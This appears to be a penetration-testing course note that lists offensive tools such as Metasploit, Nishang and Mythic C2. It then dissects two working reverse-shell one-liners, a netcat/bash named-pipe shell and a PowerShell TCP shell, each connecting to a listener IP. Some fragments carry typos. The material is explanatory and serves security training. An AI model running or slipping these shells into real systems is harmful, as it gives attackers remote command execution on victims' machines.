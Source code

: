 |**Resource**|**Description**|
|---|---|
|`MSFVenom & Metasploit-Framework`|[Source](https://github.com/rapid7/metasploit-framework) MSF is an extremely versatile tool for any pentester's toolkit. It serves as a way to enumerate hosts, generate payloads, utilize public and custom exploits, and perform post-exploitation actions once on the host. Think of it as a swiss-army knife.|
|`Payloads All The Things`|[Source](https://github.com/swisskyrepo/PayloadsAllTheThings) Here, you can find many different resources and cheat sheets for payload generation and general methodology.|
|`Mythic C2 Framework`|[Source](https://github.com/its-a-feature/Mythic) The Mythic C2 framework is an alternative option to Metasploit as a Command and Control Framework and toolbox for unique payload generation.|
|`Nishang`|[Source](https://github.com/samratashok/nishang) Nishang is a framework collection of Offensive PowerShell implants and scripts. It includes many utilities that can be useful to any pentester.|
|`Darkarmour`|[Source](https://github.com/bats3c/darkarmour) Darkarmour is a tool to generate and utilize obfuscated binaries for use against Windows hosts.|

## One-Liners Examined
#### Netcat/Bash Reverse Shell One-liner
 ```shell-session
$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.12 7777 > /tmp/f
```
#### Remove /tmp/f
```shell-session
rm -f /tmp/f; 
```

#### Make A Named Pipe
```shell-session
mkfifo /tmp/f; 
```
#### Output Redirection
```shell-session
cat /tmp/f | 
```
#### Set Shell Options
```shell-session
/bin/bash -i 2>&1 | 
```
#### Open a Connection with Netcat
```shell-session
nc 10.10.14.12 7777 > /tmp/f  
```

## PowerShell One-liner Explained
```cmd session
pppowershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
#### Calling PowerShell
```cmd-session
powershell -nop -c 
```
#### Binding A Socket
```cmd-session
"$client = New-Object System.Net.Sockets.TCPClient(10.10.14.158,443);
```
#### Setting The Command Stream
```cmd-session
$stream = $client.GetStream();
```
#### Empty Byte Stream
```cmd-session
[byte[]]$bytes = 0..65535|%{0}; 
```
#### Stream Parameters
```cmd-session
hile(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
```
#### Set The Byte Encoding
```cmd-session
{;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);
```
#### Invoke-Expression
```cmd-session
$sendback = (iex $data 2>&1 | Out-String ); 
```
#### Show Working Directory
```cmd-session
$sendback2 = $sendback + 'PS ' + (pwd).path + '> '; 
```
#### Sets Sendbyte
```cmd-session
$sendbyte=  ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}
```
#### Terminate TCP Connection
```cmd-session
$client.Close()"
```

https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1
